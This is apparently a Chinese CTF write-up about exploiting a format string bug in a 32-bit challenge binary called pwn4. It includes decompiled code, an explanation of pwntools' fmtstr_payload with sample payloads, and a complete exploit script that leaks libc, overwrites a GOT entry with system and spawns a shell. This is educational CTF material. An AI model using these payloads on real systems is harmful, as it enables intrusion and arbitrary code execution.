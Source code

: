 ```yaml
---
layout:     post
title:      "fmtstr利用之pwn4"
subtitle:   "记一简单格式化字符串利用过程"
date:       2018-09-01 12:00:00
author:     "Chris"
catalog: true
tags:
    - Pwn
    - 笔记
 
---
```



# 0x00 代码分析

1，检查保护

	[*] '/home/chris/Pwn/pwn4'
	    Arch:     i386-32-little
	    RELRO:    Partial RELRO
	    Stack:    No canary found
	    NX:       NX enabled
	    PIE:      No PIE (0x8048000)

 只开了NX

2，使用IDA分析程序流程

main 函数分析

	int __cdecl main(int argc, const char **argv, const char **envp)
	{
	  char buf; // [esp+0h] [ebp-88h]
	
	  puts("please login first");
	  fflush(stdout);
	  login();
	  if ( login_flag )
	  {
	    printf("welcome~%s,the present for first meet~%p\n", &name, &buf);
	    puts("do you have something say to me~");
	    fflush(stdout);
	    if ( read(0, &buf, 0x80u) < 0 )
	    {
	      puts("read error");
	      exit(0);
	    }
	    printf(&buf);
	  }
	  else
	  {
	    puts("please login first!");
	    login();
	  }
	  return 0;
	}


login 函数分析

	int login()
	{
	  puts("your name:");
	  fflush(stdout);
	  if ( read(0, &name, 0x20u) < 0 )
	  {
	    puts("read error");
	    exit(0);
	  }
	  login_flag = 1;
	  return puts("logined!");
	}

程序定义了一个buf[88]的数组，首先让输入你的名字，然后再打印出刚才输入的名字和buf的栈地址，然后再让你输入一个字符串，打印出这个字符串。


## 0x01 漏洞分析

首先分析输入name的地方，name的地址在bss段，不在栈中无法溢出。输入buf的地方，buf虽然在栈中，大小为`ebp-88h`，但是输入的地方`read(0, &buf, 0x80u)`，长度不能够溢出。明显`printf(&buf);`存在格式化字符串漏洞。


## 0X02 漏洞利用与fmtstr_payload介绍

很明显的格式化字符串漏洞了，执行一个任意地址泄露和任意地址写（泄露printf函数的plt.got表内地址，往main函数ret地址写一个main函数地址，回去二次执行程序流程）。因为前面泄露了地址，程序提供了libc库，算出system函数实际地址，第二次就往printf函数的plt.got表写入system函数地址，同时改写返回地址再次执行程序流程。最后printf（&system("/bin/sh")）拿到shell。

这里介绍一个pwntools自带的格式化字符串任意地址写的函数：**fmtstr_payload**

`fmtstr_payload（offset，writes，numbwritten = 0，write_size ='byte' ）`

使用给定参数创建有效负载。它可以为32位或64位架构生成有效负载。addr的大小取自`context.bits`

参数：

* offset（int） - 您控制的第一个格式化程序的偏移量
* 写（dict） - dict with addr，value{addr: value, addr2: value2}
* numbwritten（int） - printf函数已写入的字节数
* write_size（str） - 必须是byte，short或int。告诉您是否要逐字节写入，短按short或int（hhn，hn或n）

例子：

	>>> context.clear(arch = 'amd64')
	>>> print repr(fmtstr_payload(1, {0x0: 0x1337babe}, write_size='int'))
	'\x00\x00\x00\x00\x00\x00\x00\x00\x04\x00\x00\x00\x00\x00\x00\x00%322419374c%1$n%3972547906c%2$n'
	>>> print repr(fmtstr_payload(1, {0x0: 0x1337babe}, write_size='short'))
	'\x00\x00\x00\x00\x00\x00\x00\x00\x02\x00\x00\x00\x00\x00\x00\x00\x04\x00\x00\x00\x00\x00\x00\x00\x06\x00\x00\x00\x00\x00\x00\x00%47774c%1$hn%22649c%2$hn%60617c%3$hn%4$hn'
	>>> print repr(fmtstr_payload(1, {0x0: 0x1337babe}, write_size='byte'))
	'\x00\x00\x00\x00\x00\x00\x00\x00\x01\x00\x00\x00\x00\x00\x00\x00\x02\x00\x00\x00\x00\x00\x00\x00\x03\x00\x00\x00\x00\x00\x00\x00\x04\x00\x00\x00\x00\x00\x00\x00\x05\x00\x00\x00\x00\x00\x00\x00\x06\x00\x00\x00\x00\x00\x00\x00\x07\x00\x00\x00\x00\x00\x00\x00%126c%1$hhn%252c%2$hhn%125c%3$hhn%220c%4$hhn%237c%5$hhn%6$hhn%7$hhn%8$hhn'
	>>> context.clear(arch = 'i386')
	>>> print repr(fmtstr_payload(1, {0x0: 0x1337babe}, write_size='int'))
	'\x00\x00\x00\x00%322419386c%1$n'
	>>> print repr(fmtstr_payload(1, {0x0: 0x1337babe}, write_size='short'))
	'\x00\x00\x00\x00\x02\x00\x00\x00%47798c%1$hn%22649c%2$hn'
	>>> print repr(fmtstr_payload(1, {0x0: 0x1337babe}, write_size='byte'))
	'\x00\x00\x00\x00\x01\x00\x00\x00\x02\x00\x00\x00\x03\x00\x00\x00%174c%1$hhn%252c%2$hhn%125c%3$hhn%220c%4$hhn'


## 0X03 完整利用过程

* 构造`p32(put_got)+"%4$s"`，同时这里还要往返回地址写一个main函数地址。找到`&buf+9c`偏移为ret地址，继续构造`fmtstr_payload(6,{ret:main},12)`，参数6为4偏移加上泄露字符串的长度2DWORD,参数12为%s泄露出的地址和额外数据长度+4，因为%s以`'\0'`结尾,不同libc库环境可能这个参数数值不同，可自行根据判断调整。
* 成功泄露地址后算出system函数地址，第二次执行流程利用，同理`fmtstr_payload(4,{printf_got:system,ret+4:main},0,'short')+";/bin/sh;#"`往ret+4写是因为，第二次执行main函数后ret地址往后挪了一位。然后往printf函数的plt.got表写入system函数地址，同时改写返回地址再次执行程序流程。不同的是这里的payload最后要写入个`;/bin/sh;#`因为第三次执行流程的`printf(&buf)`buf地址为第二次的buf地址偏一点点，用了参数截断，执行/bin/sh。




## 0x04 脚本

	from pwn import *
	context.log_level="debug"
	context.arch="i386"
	p = process("./pwn4")
	
	p.recvuntil("name:")
	p.sendline("A"*0x10)
	p.recvuntil("meet~")
	
	stack = int(p.recvuntil("\n",drop=True),16)
	
	print hex(stack)
	ret = stack + 0x9c
	print hex(ret)
	put_got = 0x804A018
	pay = p32(put_got)+"%4$s"
	
	pay2 = fmtstr_payload(6,{ret:0x804856E},12)
	pay = pay + pay2
	p.recvuntil("g say to me~")
	
	p.sendline(pay)
	print p.recvuntil("\x18\xa0\x04\x08")
	puts = u32(p.recv(4))
	
	libc = ELF("/lib/i386-linux-gnu/libc-2.19.so")
	
	system = puts - libc.symbols['puts'] + libc.symbols['system']
	
	sleep(2)
	p.send("A"*0x20)
	
	print hex(system)
	
	pay = fmtstr_payload(4,{0x804a010:system,ret+4:0x0804856e},0,'short')+";/bin/sh;#"
	
	p.send(pay)
	
	sleep(2)
	p.recvuntil("#")
	sleep(1)
	p.sendline("BBBBBB")
	
	p.interactive()

## 0x05 总结

其实这道题有个很简单的解法，直接往返回地址写rop，泄露地址，执行system，全部rop就搞定了

大致就这样 :

`exp1=fmtstr_payload(4,{ret:put_plt,ret+4:main,ret+8:put_got},0,'short')`

`exp2=fmtstr_payload(4,{ret:system_addr,ret+4:任意,ret+8:name_addr('/bin/sh')},0,'short')`

>[文件下载](https://github.com/yxshyj/project/tree/master/pwn/fmtstr%E5%88%A9%E7%94%A8%E4%B9%8Bpwn4)

